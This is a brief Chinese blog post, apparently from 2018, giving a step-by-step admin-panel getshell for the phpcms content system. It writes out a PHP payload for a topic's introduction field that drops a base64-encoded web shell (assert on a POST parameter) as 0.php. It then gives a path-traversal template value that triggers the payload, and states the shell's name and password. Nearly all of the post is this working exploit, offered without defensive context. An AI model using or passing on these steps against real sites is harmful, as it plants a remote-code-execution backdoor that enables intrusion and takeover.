 ```yaml
---
title: "phpcms 后台 getshell"
date: 2018-02-02T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



phpcms 后台 getshell

<!--more-->

内容 - 专题 - 添加专题

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464754.jpg)

专题导读

`<?php file_put_contents('0.php',base64_decode('PD9waHAgYXNzZXJ0KCRfUE9TVFswXSk7Pz4=')); ?>`

保存

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464902.jpg)

再添加专题 扩展设置

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464938.jpg)

F12 定位 专题首页

value 要与之前添加的专题名对应

`../../../../html/special/test/index`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465015.jpg)

保存 网站根目录下生成 0.php 密码 0

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465041.jpg)